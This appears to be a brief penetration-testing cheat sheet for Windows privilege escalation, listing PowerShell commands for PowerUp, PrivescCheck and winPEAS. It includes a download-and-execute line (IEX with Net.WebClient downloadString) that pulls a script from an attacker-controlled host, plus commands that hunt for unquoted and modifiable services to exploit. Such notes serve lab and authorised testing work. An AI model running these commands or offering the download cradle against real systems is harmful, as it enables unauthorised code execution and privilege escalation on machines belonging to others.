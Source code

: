 ### PowerUp
```powershell
Import-Module .\PowerUp.ps1
IEX(New-Object Net.WebClient).downloadString('http://192.168.45.x/PowerUp.ps1')
```

```powershell
Invoke-AllChecks
Get-ServiceUnquoted -Verbose
Get-ModifiableServiceFile -Verbose
Get-ModifiableService -Verbose
```

### Privesc
```powershell
Invoke-PrivEscCheck
```

### PEASS-ng
```powershell
.\winPEASx64.exe
```